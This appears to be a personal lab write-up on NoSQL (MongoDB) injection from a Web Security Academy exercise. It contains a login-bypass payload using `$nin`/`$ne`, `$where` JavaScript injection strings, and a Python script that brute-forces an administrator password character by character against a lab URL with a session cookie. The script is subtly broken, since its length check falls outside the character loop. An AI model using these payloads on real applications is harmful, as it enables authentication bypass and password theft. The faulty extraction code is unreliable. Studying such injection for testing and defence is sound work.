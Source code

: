 ----------------

### NOSQL Injection

-----------------

- This form of injection is typical to non sql databases e.g mongodb, cypher and others.This will focus more on mongodb.

----------------

- Types-:
  - Syntax injection-: This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
  - Operators injection-:  This occurs when you can use NoSQL query operators to manipulate queries.


----------------  

- Operator injection-: NoSQL databases often use query operators, which provide ways to specify conditions that data must meet to be included in the query result.
- Examples-:

| **Operator** |      **Description**        |
|--------------|---------------------|
|$where | Matches documents that satisfy a JavaScript expression.|
|$ne | Matches all values that are not equal to a specified value|
|$in |Matches all of the values specified in an array. |
|$regex | Selects documents where values match a specified regular expression.|
| $nin  | not in an array |

- SOlving the lab with `$nin`-:

```json
{"username":{"$nin":["carlos","wiener"]},"password":{"$ne":""}}
```

------------------

### Exploiting syntax injection to extract data

-----------------

- In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database.
- Brief Example-:
- Vulnerable code-:
```js
{"$where":"this.username == 'admin'"}
```
- Injecting it to dump sensitive data-:

```
admin' && this.password[0] == 'a' || 'a'=='b
```

- Oops,it is blind,let's exfil other info with `match` js function that relies on regex, you'll also notice that the last quotes is removed to match the quote in the statement-:

```
admin' && this.password.match('^a') && '1'=='1
```
- Also, you can use `startswith()` in some instances, works in a nice manner than match because of special characters usage and you just need to comment `'` with `\\'`.

```
admin' && this.password.startswith('a') && '1'=='1
```

- Dumping the password with startswith() payload + python

```python3
#! /usr/bin/env python3
import requests
import asyncio
import string

#Replace host and cookie
#necessary variables
url: str = "https://0a0800e204bc44f580d6087f008e00af.web-security-academy.net"

async def main():
     headers = {"Cookie":"session=57tR4BdA7pjntM4pix5exS2nVIjtMSI3; Secure","User-Agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36Sec-Ch-Ua: \"Chromium\";v=\"140\", \"Not=A?Brand\";v=\"24\", \"Brave\";v=\"140\""}
     path = "/user/lookup"
     charset = string.ascii_letters + '1234567890' + string.punctuation 
     found_char = ""
     while True:
         for char in charset:
            special_chars = "\\'"
            if char in special_chars: char = '\\' + char
            payload = f"administrator'%26%26this.username=='administrator'%26%26this.password.startsWith('{found_char + char}')%26%26'1'=='1"
            result = requests.get(url + path + "?user="+ payload,headers=headers).text
         if len(result) ==  96:
            found_char += char
            print(f"[+] Found_char::{found_char}")
            break

if __name__ == "__main__":
    asyncio.run(main())
```
